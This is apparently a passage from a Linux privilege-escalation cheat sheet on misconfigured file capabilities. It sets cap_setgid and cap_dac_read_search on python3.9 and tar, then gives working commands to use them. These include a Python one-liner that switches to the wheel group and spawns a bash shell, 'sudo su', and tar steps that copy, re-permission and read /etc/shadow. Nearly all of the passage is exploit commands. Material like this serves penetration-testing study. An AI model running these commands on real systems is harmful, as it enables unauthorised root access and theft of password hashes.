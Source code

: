 #### Misconfiguring

```bash
setcap cap_setgid+ep /usr/bin/python3.9
```

#### Exploiting

```bash
cat /etc/group
```

```bash
wheel:x:10:
```

```bash
python -c 'import os; os.setgid(10); os.system("/bin/bash")'
```

```bash
sudo su
```


>Also can read /etc/shadow file just change the group to shadow instead of wheel
___

## cap_dac_read_search

#### Misconfiguring

**tar**

```bash
setcap cap_dac_read_search+ep /usr/bin/tar
```

**python**

```
setcap cap_dac_read_search+ep /usr/bin/python3.9
```


#### Exploiting

**tar**

```bash
tar -cvf shadow.tar /etc/shadow
```

```bash
tar -xvf shadow.tar
```

```bash
chmod 644 etc/shadow
```

```bash
head -1 etc/shadow
```
